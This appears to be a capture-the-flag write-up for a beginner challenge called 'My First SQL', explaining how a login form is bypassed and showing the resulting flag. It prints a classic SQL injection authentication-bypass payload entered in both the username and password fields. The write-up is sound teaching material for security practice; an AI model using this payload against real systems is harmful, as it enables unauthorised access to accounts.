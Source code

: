 # My First SQL
___

### Question

I really need access to website, but I forgot my password and there is no reset. Can you help?

### HINTS
Have you heard about SQL injection?

___

### Solution
This is a very easy challenge just to check if you're familiar with what SQL injection is. After opening the website, you get two fields for username and password respectively.
You just have to insert a very basic SQL query to get through. 
Logging in with following details:
```
Username : ' or ''='
Password : ' or ''='
```
And with this we have our flag. Easy Peasy.

```
Welcome admin. Flag be_careful_what_you_let_people_ask_1b3db77df6b116a38db8ceb7c81cb14c
```

